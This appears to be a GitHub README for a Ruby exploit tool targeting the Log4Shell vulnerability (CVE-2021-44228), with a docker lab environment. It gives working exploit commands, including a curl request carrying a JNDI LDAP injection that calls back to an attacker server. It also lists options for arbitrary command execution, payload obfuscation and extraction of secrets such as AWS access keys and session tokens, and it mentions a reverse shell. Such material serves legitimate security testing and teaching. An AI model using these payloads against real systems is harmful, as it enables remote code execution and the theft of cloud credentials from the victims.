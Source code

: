 ## Log4j RCE Vulnerability (CVE-2021-44228)
This is for educational purposes only. This contains docker files to create the testing environment for this exploit

### Building and running the testing environment
Start the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app) and test server
```bash
docker-compose up
```
### Exploitation
Open a new terminal and get an access to the test server
```bash
docker exec -it log4j_attacker bash
```
#### Full Exploitation
```bash
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name'
```
##### Example:
![Full Exploitation](./attachments/full_rce.gif)

#### Serve the payload
Start the HTTP and LDAP Servers
```bash
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name' -s
```

Open a new terminal in the test server
```bash
docker exec -it log4j_attacker bash
# inside the test server
curl http://10.10.10.2:8080 -H 'X-Api-Version: ${jndi:ldap://10.10.10.3:1389/${sys:os.name}}'
```
##### Example:
Reverse shell
![Serve only](./attachments/serve.gif)

Getting information from callback(Note: `-c 'touch /dev/shm/vulnerable' is not needed`):
![Info](./attachments/info.gif)

### Options
```
# ./log4j.rb --help
Usage: ./log4j.rb -t [Target] -a [Attacker IP] -l [LDAP Port] -h [HTTP Port]

Options:
    -t, --target Target              Target Host to check. Default: http://127.0.0.1:8080
    -a, --attacker Attacker          IP of LDAP and HTTP servers. Default: 0.0.0.0
    -l, --ldap LDAP_PORT             LDAP Port to use. Default: 53
    -h, --http HTTP_PORT             HTTP Port to use. Default: 1010
    -c, --command Command            Command to execute. Default: "touch /dev/shm/log4j_vulnerable"
    -s, --serve_only                 [OPTIONAL] Starts HTTP and LDAP Server, then send JNDI payload manually
    -i, --info_extract Info_key      [OPTIONAL] Extracts information from the target using log4j keywords. Default is none. Possible inputs but not limited to below:
                                        ${hostName}
                                        ${sys:user.name}
                                        ${sys:user.home}
                                        ${sys:user.dir}
                                        ${sys:java.home}
                                        ${sys:java.vendor}
                                        ${sys:java.version}
                                        ${sys:java.vendor.url}
                                        ${sys:java.vm.version}
                                        ${sys:java.vm.vendor}
                                        ${sys:java.vm.name}
                                        ${sys:os.name}
                                        ${sys:os.arch}
                                        ${sys:os.version}
                                        ${env:JAVA_VERSION}
                                        ${env:AWS_SECRET_ACCESS_KEY}
                                        ${env:AWS_SESSION_TOKEN}
                                        ${env:AWS_SHARED_CREDENTIALS_FILE}
                                        ${env:AWS_WEB_IDENTITY_TOKEN_FILE}
                                        ${env:AWS_PROFILE}
                                        ${env:AWS_CONFIG_FILE}
                                        ${env:AWS_ACCESS_KEY_ID}
    -o, --obfuscate                  [OPTIONAL] Obfuscates the JNDI Payload
        --help                       Print options

```
### Testing outside the container
- Make sure to do `bundle install` first to install the dependency gems

### Credits
- [christophetd](https://github.com/christophetd) for the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [alexandre-lavoie's](https://github.com/alexandre-lavoie) [code](https://github.com/alexandre-lavoie/python-log4rce) for my reference while working on this project

### Notes
This is for educational purposes only. Please use responsibly if you want to test it.
